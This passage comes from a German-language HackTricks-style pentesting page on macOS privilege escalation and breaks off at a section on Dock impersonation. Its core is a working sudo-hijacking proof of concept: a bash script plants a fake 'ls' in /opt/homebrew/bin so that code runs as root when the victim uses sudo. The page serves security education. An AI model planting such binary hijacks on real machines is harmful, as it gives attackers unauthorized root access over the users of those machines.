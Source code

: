 # macOS Privilegieneskalation

{{#include ../../banners/hacktricks-training.md}}

## TCC Privilegieneskalation

Wenn Sie hierher gekommen sind, um nach TCC-Privilegieneskalation zu suchen, gehen Sie zu:

{{#ref}}
macos-security-protections/macos-tcc/
{{#endref}}

## Linux Privesc

Bitte beachten Sie, dass **die meisten Tricks zur Privilegieneskalation, die Linux/Unix betreffen, auch MacOS**-Maschinen betreffen werden. Schauen Sie sich also an:

{{#ref}}
../../linux-hardening/privilege-escalation/
{{#endref}}

## Benutzerinteraktion

### Sudo-Hijacking

Sie finden die ursprüngliche [Sudo-Hijacking-Technik im Beitrag zur Linux-Privilegieneskalation](../../linux-hardening/privilege-escalation/#sudo-hijacking).

Allerdings **beibehält** macOS den **`PATH`** des Benutzers, wenn er **`sudo`** ausführt. Das bedeutet, dass ein anderer Weg, um diesen Angriff zu erreichen, darin bestehen würde, **andere Binärdateien zu hijacken**, die das Opfer weiterhin ausführen wird, wenn es **sudo** ausführt:
```bash
# Let's hijack ls in /opt/homebrew/bin, as this is usually already in the users PATH
cat > /opt/homebrew/bin/ls <<EOF
#!/bin/bash
if [ "\$(id -u)" -eq 0 ]; then
whoami > /tmp/privesc
fi
/bin/ls "\$@"
EOF
chmod +x /opt/homebrew/bin/ls

# victim
sudo ls
```
Beachten Sie, dass ein Benutzer, der das Terminal verwendet, höchstwahrscheinlich **Homebrew installiert** hat. Daher ist es möglich, Binärdateien in **`/opt/homebrew/bin`** zu hijacken.

### Dock-Imitation

Mit etwas **Social Engineering** könnten Sie **zum Beispiel Google Chrome imitieren** und tatsächlich Ihr eigenes Skript ausführen:
